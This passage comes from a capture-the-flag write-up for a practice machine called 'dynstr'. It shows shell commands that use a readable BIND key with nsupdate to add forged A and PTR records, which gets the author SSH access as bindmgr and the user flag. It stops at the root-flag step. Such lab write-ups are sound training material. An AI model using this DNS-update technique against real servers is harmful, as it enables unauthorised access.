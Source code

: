 After some research, found that this REFUSED error could be due to the key used and, checking the directory where the `ddns.key` was located, found 2 other files (as below), where the include using the file `infra.key` worked successfully **BUT** I still wasn't able to connect using SSH.

```bash
www-data@dynstr:/dev/shm$ ls -la /etc/bind/*.key
-rw-r--r-- 1 root bind 100 Mar 15 20:44 /etc/bind/ddns.key
-rw-r--r-- 1 root bind 101 Mar 15 20:44 /etc/bind/infra.key
-rw-r----- 1 bind bind 100 Mar 15 20:14 /etc/bind/rndc.key
```

Doing some troubleshooting, noticed that I was able to solve the `attacker.infra.dyna.htb` but the reverse lookup of the IP address wasn't possible. To fix this, I have added another entry in the `nsupdate` command to also include a PTR record to the IP as below. A crucial point I also had to troubleshoot was that the A and PTR records **must be separated by a blank line**, otherwise the update would fail.

```bash
www-data@dynstr:/dev/shm$ cat nsupdate
server 127.0.0.1
update add attacker.infra.dyna.htb 30 A 10.10.10.10
send

update add 121.14.10.10.in-addr.arpa 30 PTR attacker.infra.dyna.htb
send
www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/infra.key
www-data@dynstr:/dev/shm$
```

After that adjustment, I was able to SSH as `bindmgr` and read the content of `user.txt` file

```bash
bindmgr@dynstr:~$ ls -la
total 36
drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 20:39 .
drwxr-xr-x 4 root    root    4096 Mar 15 20:26 ..
lrwxrwxrwx 1 bindmgr bindmgr    9 Mar 15 20:29 .bash_history -> /dev/null
-rw-r--r-- 1 bindmgr bindmgr  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bindmgr bindmgr 3771 Feb 25  2020 .bashrc
drwx------ 2 bindmgr bindmgr 4096 Mar 13 12:09 .cache
-rw-r--r-- 1 bindmgr bindmgr  807 Feb 25  2020 .profile
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 12:09 .ssh
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 14:53 support-case-C62796521
-r-------- 1 bindmgr bindmgr   33 Aug 16 15:49 user.txt
bindmgr@dynstr:~$ cat use
cat: use: No such file or directory
bindmgr@dynstr:~$ cat user.txt
<redacted>
```

## Root flag

As always, started with a `sudo -l` command, where I found that the `bindmgr` user is capable to run the script below as root:
